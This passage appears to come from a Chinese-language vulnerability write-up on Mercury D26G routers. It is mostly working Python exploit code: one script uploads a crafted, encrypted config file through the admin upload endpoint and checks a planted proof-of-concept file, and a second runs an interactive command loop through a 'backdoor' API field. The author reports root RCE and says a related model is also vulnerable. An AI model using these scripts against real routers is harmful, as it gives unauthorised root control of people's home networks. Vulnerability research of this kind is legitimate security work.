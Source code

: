 ```python
        f.write(file)
    os.system('./test encrypt "jklsd*%&%HDFG767" config.txt config.bin && rm config.txt')
    with open("config.bin", "rb") as f:
        return f.read()

resp = requests.post(u, files={
    "file": ("config.bin", gen()),
}).json()

print(resp)

resp = requests.get(url + "/web-static/poc").text.strip()

if resp == poc:
    print("poc success")
else:
    print("poc fail", resp, poc)
```

然后重启，然后访问一下看看

```python
from urllib.parse import unquote
import requests

stok = "49e7e9b0c6607228a6a68d8fb9271c95"

url = "http://192.168.1.1"

u = f"{url}/stok={stok}/admin/system/upload_conf"

while True:
    cmd = input("$ ")

    resp = unquote(requests.post(f"{url}/stok={stok}/ds", json={
        "backdoor": {"backdoor": cmd}, "method": "do"
    }).json()["result"]).replace("\\n", "\n")

    print(resp)

```

![image-20220311104922374](https://cdn.yoshino-s.online//typora_img/image-20220311104922374.png)

RCE了，root权限，剩下来的就随便玩玩啦。

> 经过分析D26G Pro V2也存在该漏洞，其他路由器暂未测试，怀疑均存在此类漏洞，有空看看吧

## 链接

固件下载 https://service.mercurycom.com.cn/download-search.html?kw=D26G&classtip=all

